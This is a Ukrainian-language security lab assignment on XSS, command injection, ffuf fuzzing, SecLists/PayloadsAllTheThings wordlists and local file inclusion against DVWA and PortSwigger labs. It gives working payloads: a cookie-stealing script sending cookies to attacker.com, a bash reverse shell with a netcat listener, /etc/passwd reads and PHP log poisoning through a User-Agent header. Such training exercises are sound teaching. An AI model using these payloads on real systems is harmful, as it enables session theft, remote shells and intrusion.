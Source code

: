 # 🛡️ Lab 3: XSS, RCE, ffuf та словники (PayloadsAllTheThings, SecLists)

## 📘 Середовище для виконання
- **Metasploitable2** + **DVWA (Damn Vulnerable Web Application)**
- **PortSwigger Web Security Academy** (https://portswigger.net/web-security)

---

## 📚 Теми

### 1. Cross-Site Scripting (XSS)

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → XSS (Reflected)**:
   - Використайте прості payload-и: `<script>alert(1)</script>`.
   - Обхід фільтрів: `"><script>alert('XSS')</script>`, `javascript:alert(1)`.

2. Перейдіть до **XSS (Stored)**:
   - Спробуйте вставити XSS у повідомлення коментарів або гостьову книгу.
   - Тестування зловмисного JavaScript для крадіжки cookie:
     ```html
     <script>new Image().src="http://attacker.com/log?c="+document.cookie</script>
     ```
   - Результат - отримані cookie у себе на webhook. [interactsh](https://app.interactsh.com/#/)

#### 🧪 PortSwigger Labs:
- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
- Спробуйте пройти хоча б **3 лаби по XSS**.

---

### 2. Remote Code Execution (RCE)

#### 🎯 Завдання на DVWA:
1. Перейдіть до **DVWA → Command Injection**:
   - Введіть `127.0.0.1; whoami` і досліджуйте вивід.
   - Інші корисні команди: `id`, `uname -a`, `cat /etc/passwd`.
   - Спробуйте підключення зворотного шелу:
     ```bash
     127.0.0.1; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
     ```

2. Підніміть слухач:
   ```bash
   nc -lvnp 4444
   ```

#### 🧪 PortSwigger Labs:
- [OS command injection](https://portswigger.net/web-security/os-command-injection)

---

### 3. Ffuf (Fuzz Faster U Fool)

#### 🛠 Завдання:
1. Проскануйте доступні директорії:
   ```bash
   ffuf -u http://<DVWA-IP>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
   ```

2. Сканування параметрів:
   ```bash
   ffuf -u http://<DVWA-IP>/index.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/{}.txt
   ```
---

### 4. Словники: PayloadsAllTheThings + SecLists

#### 📁 Практика:
- Вивчіть структуру словників у:
  - `Seclists/`
  - `PayloadsAllTheThings`

- Використайте наступні словники:
  - `XSS`: `/PayloadsAllTheThings/XSS Injection/`
  - `RCE`: `/PayloadsAllTheThings/Command Injection/`
  - `Brute-force`: `/SecLists/Passwords/Leaked-Databases/rockyou.txt`

---

### 5. Local File Inclusion (LFI) / Path Traversal

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → File Inclusion**:
   - Введіть `../../../../etc/passwd` у параметр файлу.
   - Протестуйте подвійне кодування: `%252e%252e%252fetc%252fpasswd`.
   - Пошукайте інші файли, наприклад:
     - `/proc/self/environ`
     - `/var/log/apache2/access.log`

2. Спроба інжекції з логів:
   - Вставте шкідливий User-Agent у заголовок:
     ```bash
     curl -A "<?php system($_GET['cmd']); ?>" http://<DVWA-IP>/
     ```
   - Потім зверніться до `/var/log/apache2/access.log?cmd=id`

#### 🧪 PortSwigger Labs:
- [File path traversal vulnerabilities](https://portswigger.net/web-security/file-path-traversal)
- Виконайте хоча б **2 лаби**, включаючи LFI до sensitive files.

---

## 📌 Звітність:
Для кожного завдання:
- Надішліть скріншоти payload'ів та результатів.
- Поясніть, що саме відбулось.
- Якщо були труднощі — коротко опишіть їх.

---

✅ **Рекомендація**: Виконуйте завдання в режимі **Medium** або **High** складності DVWA, якщо вже ознайомлені з логікою на Low.


